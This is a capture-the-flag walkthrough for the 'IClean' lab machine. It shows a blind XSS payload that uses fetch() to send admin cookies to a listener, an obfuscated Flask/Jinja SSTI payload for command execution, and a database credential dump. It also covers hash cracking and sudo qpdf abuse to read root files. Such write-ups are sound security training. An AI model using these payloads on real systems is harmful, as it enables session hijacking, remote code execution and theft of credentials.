 # IClean

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Port scan

```bash
└─➜ nmap -p22,80 $IP -sCV                                                                                                                                                                 [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 21:55 IST
Nmap scan report for capiclean.htb (10.129.43.189)
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Capiclean
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.43 seconds
```

* Directory scan wasn't that imp on this machine (so skipping it)

## Web -> XSS

![image](https://gist.github.com/assets/56447720/9603e459-2368-4d3f-ac06-b794210d0b77)

Give dummy data and click on submit, after submitting we can see that there's a message "team will get back to you"

![image](https://gist.github.com/assets/56447720/2f04d4ba-0984-4893-8072-ecfefe5c7eaf)

Hmm, feel like XSS, (BLIND XSS)

* Blind XSS

We can send a payload and wait for the admin to view our response and we can get their cookies.

* Payload

```js
<img src=x onerror=fetch("http://IP:PORT/"+document.cookie);>
```

* Response

```js
└─➜ python3 -m http.server 9001          
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.129.43.189 - - [08/Apr/2024 22:13:40] code 404, message File not found
10.129.43.189 - - [08/Apr/2024 22:13:40] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk <<SNIP>> ODk0YTRdDBh9dWK-w5cJYTlg HTTP/1.1" 404 -

```

And now we are admin

![image](https://gist.github.com/assets/56447720/1bfe2f2e-850c-47e0-8807-d7b5eb9e56ca)

## Web -> SSTI

AAAHHH, the website is build with python flask, the first bug i can thought of is SSTI.

![image](https://gist.github.com/assets/56447720/29d31fe3-e6bc-4dce-b50b-9af840681a2b)

* The invoice generator is vulnerable to SSTI

![image](https://gist.github.com/assets/56447720/bfee3a1b-841b-4420-9b44-904bbb058908)

#### SSTI -> RCE

![image](https://gist.github.com/assets/56447720/6368cc9a-68aa-4c18-9fae-1d7f1534aa9f)

* Encode the payload to base64 and send it to the server

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

![image](https://gist.github.com/assets/56447720/6b5b422a-1dfd-4866-9fa1-cc3e5675458d)

## www -> User

* we have found db creds

```py
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```

* I used mysql cli to view data from the db

```bash
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_capiclean
quote_requests
services
users

www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users"
mysql: [Warning] Using a password on the command line interface can be insecure.
id      username        password        role_id
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee

```

The reason i choose to use mysql cli is because the tty session of rev shell is not good to handle sql data, it doesn't work better basically

* Crack the hash

```bash
└─# hashcat -a 0 -m 1400  iclean-consuela.hash ../wordlists/rockyou.txt
hashcat (v6.2.6) starting
<<SNIP>>

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:<<REDACTED>>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494da...6927aa
<<SNIP>>

Started: Mon Apr  8 17:41:28 2024
Stopped: Mon Apr  8 17:41:33 2024
```

## User -> root

* Login with ssh and get user.txt

#### Sudo -l

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Sorry, try again.
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf

```

* Documentation

{% embed url="https://qpdf.readthedocs.io/en/stable/cli.html" %}

```bash
consuela@iclean:/tmp$ sudo qpdf --empty --add-attachment /root/root.txt -- pwn.pdf
consuela@iclean:/tmp$ file test.pdf
test.pdf: PDF document, version 1.3, 0 pages
```

After we bring pwn.pdf in our local machine (through, scp, python3 server) we can get contents of root.txt

You can take id\_rsa in order to get root shell on the box.

Machine pwned!!

## \_\_\_\_heapbytes still pwning

